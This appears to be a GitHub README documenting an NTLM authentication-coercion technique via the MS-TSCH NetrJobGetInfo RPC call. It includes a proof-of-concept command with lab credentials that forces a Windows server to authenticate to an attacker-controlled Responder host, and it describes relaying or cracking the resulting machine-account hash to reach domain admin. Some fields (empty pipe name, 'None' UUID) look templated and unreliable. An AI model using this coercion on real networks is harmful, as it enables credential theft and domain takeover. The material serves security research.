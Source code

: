 # MS-TSCH - Remote call to NetrJobGetInfo (opnum 3)

## Summary

 - **Protocol**: [[MS-TSCH]: Task Scheduler Service Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931)

 - **Protocol UUID**: None

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`NetrJobGetInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/ee6ca40c-ae87-421d-998d-ec759d375824)

 - **Function operation number**: `3`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-TSCH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) protocol (with uuid `None` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-TSCH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-TSCH]: Task Scheduler Service Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) and allows to call RPC functions of this protocol. We will then call the remote [`NetrJobGetInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/ee6ca40c-ae87-421d-998d-ec759d375824) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrJobGetInfo('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrJobGetInfo(
   [in, string, unique] ATSVC_HANDLE ServerName,
   [in] DWORD JobId,
   [out] LPAT_INFO* ppAtInfo
 );
```

## References

 - Documentation of protocol [MS-TSCH]: Task Scheduler Service Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931

 - Documentation of function `NetrJobGetInfo`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/ee6ca40c-ae87-421d-998d-ec759d375824